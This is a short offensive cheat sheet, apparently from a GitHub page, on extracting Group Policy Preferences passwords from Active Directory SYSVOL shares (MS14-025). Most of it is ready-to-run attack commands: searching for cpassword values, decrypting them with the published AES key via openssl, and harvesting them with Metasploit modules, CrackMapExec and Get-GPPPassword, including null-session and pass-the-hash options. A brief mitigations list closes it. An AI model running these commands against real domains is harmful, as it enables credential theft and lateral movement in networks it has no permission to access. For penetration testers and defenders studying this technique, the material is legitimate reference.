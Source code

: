 # Passwords in SYSVOL & Group Policy Preferences (GPP)

### Find password in SYSVOL (MS14-025). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: \\DOMAIN\SYSVOL\DOMAIN\Policies\ .

### Group Policy Preferences (GPP) allowed admins to create policies using embedded credentials

### These credentials were encrypted and placed in a "cPassword"

### They key was accidentally released 

### Patched in MS14-025, but it doesn't prevent previous uses

### GPP is an .xml file stored in SYSVOL directory

#### 1) findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml (Search for .xml file)

#### 2) gpp-decrypt CPASSWORD

## Alternate Method

### Decrypt a Group Policy Password found in SYSVOL (by 0x00C651E0), using the 32-byte AES key provided by Microsoft in the MSDN - 2.2.1.1.4 Password Encryption

#### 1) echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b

## Automate the SYSCOL and passwords search

## 1) Metasploit modules to enumerate shares and credentials

 - scanner/smb/smb_enumshares

 - post/windows/gather/enum_shares

 - post/windows/gather/credentials/gpp

## 2) CrackMapExec

 - cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin

 - cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password

## 3) Get-GPPPassword

### with a NULL session

 - Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

### with cleartext credentials

 - Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

### pass-the-hash

 - Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_

## MITIGATIONS

 - Install KB2962486 on every computer used to manage GPOs which prevents new credentials from being placed in Group Policy Preferences.

 - Delete existing GPP xml files in SYSVOL containing passwords.

 - Don’t put passwords in files that are accessible by all authenticated users.

